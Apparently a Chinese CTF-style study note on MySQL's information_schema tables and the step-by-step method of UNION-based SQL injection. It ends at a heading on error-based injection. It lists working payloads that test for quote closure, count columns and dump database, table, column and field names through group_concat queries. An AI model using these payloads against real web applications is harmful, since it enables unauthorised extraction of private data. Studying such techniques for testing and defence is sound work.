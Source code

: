 #### Information_schema

| SCHEMATA | 提供了当前mysql实例中所有数据库的信息。show databases的结果取之此表 |
| :------: | ------------------------------------------------------------ |
|  TABLES  | 提供了关于数据库中的所有表的信息（包括视图）。详细表述了某个表属于哪个schema、表类型、表引擎、创建时间等信息。`show tables from schema_name`的结果取之此表 |
| COLUMNS  | 提供了表中的所有列信息。详细表述了某张表的所有列以及每个列的信息。`show columns from schema_name.table_name`的结果取之此表 |

### Union联合注入流程

?id=1 and 1=1

1. 判断注入类型

2. 判断有无闭合 and 1=1 and 1=2 //结果和第一个一样说明需要闭合，反之无闭合 有闭合则需要用到 --+闭合

3. 猜解字段 order by 10 //采用二分法 

4. 判断数据回显位置 -1 union select 1，2，3，4，5.... //参数等号后面加-表示不显示当前数据 

5. 获取当前数据库名、用户、版本 union select version(),database()，user()，

6. 获取全部数据库名

* `union select 1,2,(select group_concat(schema_name)from information_schema.schemata)`

​        获取表名

-  `union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='库名')`
- ` union select 1,group_concat(table_name)from information_schema.tables where table_schema='库名'`

​         获取字段名

- `union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='表名')`
-  `union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' `

​         获取数据 

* `union select 1,2,(select group_concat(字段1，字段2)from 库名.表名`

查 库名： `select schema_name from information_schema.schema`

查 表名： `select table_name from information_schema.tables where table_schema=库名`

查 列名： `select column_name from information_schema.columns where table_name=表名`

查数据： `select 列名 from 库名.表名`

### 报错注入

参考文档：[SQL注入实战之报错注入篇](https://www.cnblogs.com/c1047509362/p/12806297.html)

![951263b3b81edcb0450406395bfa3a2](https://s2.loli.net/2024/11/21/De7N8o1UYMAbwjc.png)

#### extractvalue 报错注入
